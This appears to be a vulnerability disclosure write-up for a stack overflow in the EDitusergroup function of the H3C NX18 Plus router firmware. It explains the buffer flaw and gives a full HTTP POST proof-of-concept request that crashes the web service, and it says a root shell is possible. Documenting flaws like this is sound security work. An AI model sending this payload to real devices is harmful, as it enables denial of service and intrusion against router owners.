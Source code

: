 #  H3C Magic NX18 Plus NX18PV100R003 has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202103/1389284_30005_0.htm

### Product Information

H3C NX18 Plus NX18PV100R003  router, the latest version of simulation overview：

![image-20220720194826789](img/image-20220720194826789.png)

## Vulnerability details

The H3C NX18 Plus NX18PV100R003  router was found to have a stack overflow vulnerability in the EDitusergroup function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220720211305469](img/image-20220720211305469.png)

![image-20220723170038939](D:\vuln\H3C\NX18 Plus\20\img\image-20220723170038939.png)



The `param` we entered in the `EDitusergroup` function uses the `getElement` function to split the string.The getElement function splits the string by matching `a3`(the value of a3 is ";").Although the getElement function also limits the size of the copied string, it does not play an effective role. `V24` is the location where the split string is saved. It is only 4 * 4 in size. As long as the size of the data we enter is greater than the size of `V24` and does not exceed the size limited by the getElement function (the size limited by the getElement function is 64), it will lead to stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 536
Origin: https://192.168.124.1:80
DNT: 1
Connection: close
Cookie: LOGIN_PSD_REM_FLAG=0; PSWMOBILEFLAG=true
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=EDitusergroup&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;
```

![image-20220720210723701](img/image-20220720210723701.png)

The picture above shows the process information before we send poc.

![image-20220720210915164](img/image-20220720210915164.png)

In the picture above, we can see that the PID has changed since we sent the POC.

![image-20220720211131193](img/image-20220720211131193.png)

The picture above is the log information.

![image-20220624230619282](img/image-20220624230619282.png)

By calculating offsets, we can compile special data to refer to denial-of-service attacks(DOS).

![image-20220720065911385](img/image-20220723140942626.png)

Finally, you also can write exp to get a stable root shell without authorization.